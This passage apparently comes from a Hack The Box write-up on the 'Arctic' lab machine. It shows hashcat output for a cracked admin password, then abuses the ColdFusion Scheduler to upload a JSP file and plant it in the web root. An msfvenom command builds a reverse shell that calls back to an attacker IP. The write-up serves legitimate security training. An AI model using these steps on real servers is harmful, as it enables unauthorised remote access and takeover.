 ```
Time.Estimated...: Thu Jan 21 09:06:46 2021 (0 secs)
Guess.Base.......: File (/wordlists/top12k.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   112.1 kH/s (0.15ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/12646 (32.39%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/12646 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> darkman

Started: Thu Jan 21 09:06:32 2021
Stopped: Thu Jan 21 09:06:48 2021
kali@kali:~/htb/Arctic$ 
```

And we can see that the password is `happyday`

So let's try to use that as the password

And we get into the administrator panel. So now all we have to do is find something that either lets us upload a file, or lets us connect to the server somehow. Note that these pages are taking around 30 seconds to load. It’s a nightmare.

Eventually I found the Scheduler, which allows me to upload a file from my own web server, and run it.

I did some googling, and found out that jsp files are what I should use as reverse shells on coldfusion servers. I found a quick one on github, and put in my ip and port.
You can also create a fast one with `msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.21 lport=1337 -f raw > shell.jsp`

I check the Server Settings > Mappings  to know where to place it. 

And see that I should place it here: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
